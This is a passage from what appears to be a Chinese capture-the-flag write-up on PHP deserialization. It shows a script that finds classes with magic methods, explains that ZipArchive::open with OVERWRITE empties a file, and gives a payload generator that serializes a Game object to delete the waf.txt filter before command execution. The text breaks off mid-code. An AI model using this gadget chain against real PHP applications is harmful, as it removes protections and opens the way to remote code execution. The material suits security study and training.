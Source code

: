 ```php
<?php
$classes = get_declared_classes();
foreach ($classes as $class) {
    $methods = get_class_methods($class);
    foreach ($methods as $method) {
        if (in_array($method, array(
            '__destruct',
            '__wakeup',
            'open',
        ))) {
            print $class . '::' . $method . "\n";
        }
    }
}
```
其中`ZipArchive::open`,如果指定参数为`ZIPARCHIVE::OVERWRITE`,则会对源文件进行重覆盖，

![image-20210520000222964](https://cdn.jsdelivr.net/gh/yuuuuu422/Myimages/img/2021/05/2021-05-20-image-20210520000222964.png)

同时我们关注红框里的一句话，如果文件为空则无效，我们就可以利用这个删除`waf.txt`。

```php
<?php
class Game
{
    public  $username;
    public  $password;
    public  $choice;
    public  $register;

    public  $file;
    public  $filename;
    public  $content;
    public function __construct()
    {   
        $this->register='admin';
        $this->username='admin';
        $this->password='admin';
        $this->file=new ZipArchive;
        $this->filename='waf.txt';
        $this->content=ZipArchive::OVERWRITE;
    }
}

class Open
{

}
    $demo=new Game;
    echo base64_encode(serialize($demo))."\n";
?>
```
之后就是命令执行，这个绕过的条件太宽裕了，就不说了。
```php
<?php
class Game
{
    public  $username;
    public  $password;
    public  $choice;
    public  $register;

    public  $file;
    public  $filename;
```
